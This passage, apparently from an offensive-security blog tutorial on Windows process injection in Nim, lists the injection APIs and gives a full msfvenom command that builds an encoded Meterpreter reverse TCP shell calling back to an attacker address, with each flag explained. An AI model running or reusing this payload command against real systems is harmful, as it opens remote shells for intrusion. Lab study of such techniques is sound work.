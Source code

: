 =======================================================

We are now ready to introduce our process injection code.  We will use three Windows API functions to execute a basic and "loud" process injection technique covered in the [https://huskyhacks.dev/2021/07/17/nim-exploit-dev/](https://huskyhacks.dev/2021/07/17/nim-exploit-dev/) post.  Part 1 of this post will provide the code with a broad overview for each block.  Part 2 will dig into the Winim and osproc libraries as well as the Windows API to explain the code in more detail.  

The three Windows API functions we are going to use to inject our shell code are:

-1- VirtualAllocEx

-2- WriteProcessMemory

-3- CreateRemoteThread

You will see these functions appear in our Nim code below, but I will not discuss them in depth until Part 2 of this post.

First, we need some shellcode to inject and then execute.  To prepare our shellcode we will use our Attacker Machine to run an msfvenom command that will output the shellcode to a file.  We need to know the IP address of the Attacker Machine and an unused TCP port we will run our Metasploit listener on.  In my case these are 192.168.3.28 and 1701 respectively.  Your IP address will likely be different, and feel free to choose a different port number as long as it is not already in use.

\<\< Attacker Machine \>\>  

In a terminal window:

    msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.3.28 LPORT=1701 -f csharp -e x64/zutto_dekiru -i 2 > code.out

This command does the following:

msfvenom  :  Metasploit's standalone payload generator

-p windows/x64/meterpreter_reverse_tcp  :  Use the payload for a non-staged Meterpreter reverse TCP shell on Windows 64-bit architecture.

LHOST=192.168.3.28  :  Set the IP address to connect to as 192.168.3.28.

LPORT=1701  :  Set the TCP port to connect to as 1701.

-f csharp  :  Set the format of the output to C# code.  This keeps the format Nim-friendly.

-e x64/zutto_dekiru  :  Encode the payload using the 64-bit zutto dekiru algorithm.

-i 2  :  Run the zutto_dekiru algorithm over the code two times.  Each iteration slightly increases the size of the payload.

\> code.out  :  Redirect the standard output to a file named code.out.

![](/images/nim_proc_inject_pt1/37. msfvenom.png)

\<\< Development Machine \>\> 

We need to use two items from the output of the msfvenom command.  The first is the final Payload size, in my case 201391 bytes (yours may be different).  The second is the payload itself which is in the code.out file.  First let's update our code with some additional comments to document what we are doing.  This code should start immediately following the end of the C++ code section:
